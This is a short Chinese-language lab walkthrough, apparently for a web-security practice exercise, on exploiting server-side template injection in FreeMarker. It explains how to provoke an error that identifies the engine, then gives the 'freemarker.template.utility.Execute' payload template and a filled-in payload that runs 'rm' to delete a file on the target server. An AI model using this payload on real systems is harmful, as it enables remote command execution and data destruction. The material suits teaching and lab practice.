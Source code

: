 首先因为题目中没有告诉我们这是哪一款模板引擎，所以我们要让它们使用的**模板语句故意报错**，从报错信息中我们一般可以知道使用的是哪种模板引擎，在编辑模板的 `${}` 模板表达式中随便输入些什么，就会触发报错

<img src=".\图片\Snipaste_2023-08-01_14-38-36.png" alt="Snipaste_2023-08-01_14-38-36" style="zoom:80%;" />

然后我们就可以对症下药了，我们需要去查阅一下相关的文档，看看有没有相关警示项，我们直接去搜freemarker ssti，找到一个利用内置函数执行os命令，payload模板如下

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("[payload]")}
```

于是我们在编辑模板的地方将payload写入模板表达式

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```
